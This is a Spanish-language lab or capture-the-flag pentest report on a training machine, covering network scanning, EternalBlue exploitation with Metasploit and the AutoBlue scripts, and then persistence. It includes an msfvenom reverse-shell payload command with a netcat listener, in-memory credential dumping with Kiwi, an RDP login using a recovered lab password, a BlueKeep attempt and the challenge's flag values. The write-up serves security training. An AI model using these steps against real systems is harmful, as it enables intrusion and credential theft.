


  

# 
 Informe de análisis de vulnerabilidades, explotación y resultados del reto Eternal

  

### 
 Generado por 

## 
 David Ossa Saldarriaga 
   

  

### 
 Fecha 

## 
 17/04/2024 
  

  

### 
 Academia Hacker Mentor 

  
  
  
  
  
  

---
---
---

# Tarea 3 - Reto Eternal

## Tabla de contenidos
[Fases del pentesting](#fases-del-pentesting)
1. [Reconocimiento](#1-reconocimiento)
2. [Escaneo y enumeración](#2-escaneo-y-enumeración)
3. [Explotación](#3-explotación)
    1. [Explotación automática](#explotación-automática)
        1. [Bandera 1](#bandera1-0ef3b7d488b11e3e800f547a0765da8e)
        2. [Bandera 2](#bandera2-a63c1c39c0c7fd570053343451667939)
    2. [Explotación manual](#explotación-manual)
4. [Mantener persistencia](#4-mantener-persistencia)

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

## Fases del pentesting.
### 1. Reconocimiento: 
Empezamos realizando un reconocimineto de la red en la cual se encuentra la máquina objetivo, vamos a empezar con arp-scan para descubrir los host conectados a nuestra red.

       # arp-scan -l

Archivo de salida: logarpscan.txt

Ahora podemos proceder a realizar un ping para ver la máquina nos responde y si podemos comenzar a sacar hipótesis sobre ella:

        # ping -c 5 192.168.40.133

### 2. Escaneo y Enumeración
Con base a la respuesta obtenida al realizar ping podemos afirmar que tenemos comunicación la máquina y podemos generar nuestra primera hipótesis, es posible que la máquina objetivo sea **Windows** ya que recibimos un ttl=128

Procedemos a realizar un análisis más detallado de esta IP objetivo. Haciendo uso del comando *nmap* y algunas de sus banderas podemos obtener una lista de puertos abiertos y cuáles servicios están corriendo en cada puerto.

        # nmap -sV -p- -T5 -sS 192.168.40.133

Con este resultado podemos confirmar que efectivamente se trata de un sistema operativo **Windows** y ahora tenemos información adicional acerca de posibles punto de entrada con los puertos abiertos que tiene la máquina. 

Ahora bien, haciendo uso de la herramienta *crackmapexec* podemos reibir más información acerca de la máquina objetivo, ya que aún no sabemos qué tipo de arquitectura tiene la máquina.

        # crackmapexec smb 192.168.40.133

Continuando con el resultado obtenido por el comando nmap anterior podemos notar que la máquina está ejecutando servicios de RPC en varios de los puertos abiertos, así como netbios-ssn y microsoft-ds, estando estos dos últimos relacionados al servicio **Samba**.

Es posible que en alguno de estos servicios encontremos alguna vulnerabilidad para ganar acceso a la máquina. Para esto podemos empezar buscando un poco más de información con el comando nmap.

        # nmap -sVC -p 135,139,445,49152,49153,49154,49155,49156,49157 -T5 -sS 192.168.40.133 -oA nmap-scriptd

En este nuevo comando pudimos recolectar más información acerca del sistema operativo al cuál estamos atacando ya que corrimos el comando de nmap con la opción de ejecutar scripts para obtener más información. Procedemos ahora a lanzar el mismo comando pero esta vez no usamos los scripts default sino los scripts que buscan directamente vulnerabilidades.

        # nmap -sV --script vuln -p 135,139,445,49152,49153,49154,49155,49156,49157 -T5 -sS 192.168.40.133 -oA nmap-scriptvuln

Encontramos por medio de nmap que hay una posible vulnerabilidad relacionada con el servicio de samba que está corriendo en la máquina objetivo.

Queremos recolectar toda la información posible acerca de la máquina objetivo, es por eso que para este proceso de escaneo y enumeración vamos a usar también Nessus para un análisis detallado de vulnerabilidades.

El resultado de ambos escaneos comparte la misma vulnerabilidad nombrada MS17-010 o Eternal Blue, vamos a proceder en la siguiente etapa del pentesting a tratar de explotar esta vulnerabilidad.

### 3. Explotación

Para iniciar con la explotación podemos hacer uso de herramientas que sin necesidad de usar un exploit nos permitan tener acceso a la máquina en caso de que no cuente con temas de seguridad básicos:

Primero tratamos de ganar acceso a la máquina por medio del *rpcclient* ya que nos permite obtner información importante de la máquina. Nos conectamos con un usuario anónimo y sin contraseña, podemos ver que es posible hacerlo, sin embargo al momento de tratar de obtener información vemos que no tenemos permisos para hacerlo

Tratamos ahora de obtener acceso con usuarios por defecto que pueda tener el sistema y sin contraseñas, pero tampoco logramos tener acceso.

Tratamos de tener acceso por medio del *smbclient* para ver los folders a los que se pueda tener acceso siendo un usuario anónimo.

Y ahora usando *smbmap* verificamos si siendo usuario anónimo podemos tener acceso a estos folders.

Una vez agotadas estas opciones básicas que tenemos para conectarnos al servicio de samba y que no funcionaron, podemos proceder a realizar la explotación de la vulnerabilidad. Podemos realizar la explotación de forma manual con scripts que exploten la vulnerabilidad o automáticamente con Metasploit.

#### Explotación automática

Iniciamos buscando la vulnerabilidad dentro de la *msfconsole* con el nombre MS17-010 o Eternalblue, que son algunos de los nombres que conocemos para esta vulnerabilidad. Encontramos varias opciones pero en este caso seleccionamos la primera opción que nos aparece.

Buscamos las opciones del exploit para setear todas las variables que necesitamos.

Y ahora procedemos a explotar la vulnerabilidad.

Podemos ver que ganamos acceso a una sesión de Meterpreter y ahora procedemos a buscar información de la máquina, para determinar el nivel de permisos con el cual nos acabamos de conectar a la máquina.

Podemos observar que tenemos acceso en estos momentos como Authority\System, es decir tenemos el máximo acceso a nivel de sistema operativo que podríamos tener. Procedemos ahora a buscar las banderas del reto.

##### Bandera1: 0ef3b7d488b11e3e800f547a0765da8e
##### Bandera2: a63c1c39c0c7fd570053343451667939

#### Explotación manual

Para la explotación manual vamos a hacer uso de un repositorio de github del usuario 3ndG4me, en el cual podemos escontrar scripts en python para realizar la explotacion del MS17-010.

        # git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

Vamos a la carpeta *shellcode* para general el payload que vamos a enviar en el exploit y lo generamos con

        # msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=192.168.40.129 LPORT=6464

Ahora procedemos a realizar la explotación con python2 ya que para nuevas versiones de python la concatenación que de string y bytes que se hace en el script no está soportada.

Pero antes de la explotación nos aseguramos de estar escuchando en el puerto 6464 para poder recibir reverse shell desde la máquina objetivo.

        # nc -lvp 6464

Y ahora tenemos acceso a la máquina en una sheel que se conectó a nuestro puerto 6464

### 4. Mantener persistencia

Una vez que logramos explotar la vulnerabilidad de la máquina y acceder con privilegios elevados podemos intentar recolectar más información que pueda ayudarnos a mantener persistencia en la máquina y no tener que explotar la vulnerabilidad cada vez que queramos conectarnos.

Cargamos el módulo que Kiwi en meterpreter para poder acceder a las contraseñas de los usuarios que quedaron guardadas en texto plano en la memoria RAM por medio de *creds_wdigest*

Ahora que contamos con usuarios y sus respectivas contraseñas podemos hacer uso del escriotorio remoto RDP para tener acceso directo a la máquina. Pero primero debemos habilitar el servicio ya que previamente no estaba habilitado.

Realizamos una verificación rápida con *nmap* y vemos que el puerto de RDP está ahora abierto en la máquina objetivo.

Verificamos ahora una conexión con un cliente RDP hacia la máquina objetivo usando alguna de las credenciales que acabamos de encontrar.

        # xfreerdp /u:"Hacker Mentor Admin" /p:'H4ck3rm3nt0r!' /v:192.168.40.133 /tls-seclevel:0

Lanzamos nuevamente un escaneo con Nessus para verificar si al abrir el nuevo puerto podemos encontrar otra vulnerabilidad para explotar

Procedemos a buscar la vulnerabilidad bluekeep en metasploit para ver si encontramos algun exploit que pueda darnos acceso por esta nueva vulnerabilidad.

Encontramos un exploit y procedemos a usarlo asignando los valores a las variables requeridas

Ahora procedemos a verificar el nivel de acceso que ganamos usando este exploit.

Nuevamente tenemos acceso con el máximo nivel de permisos.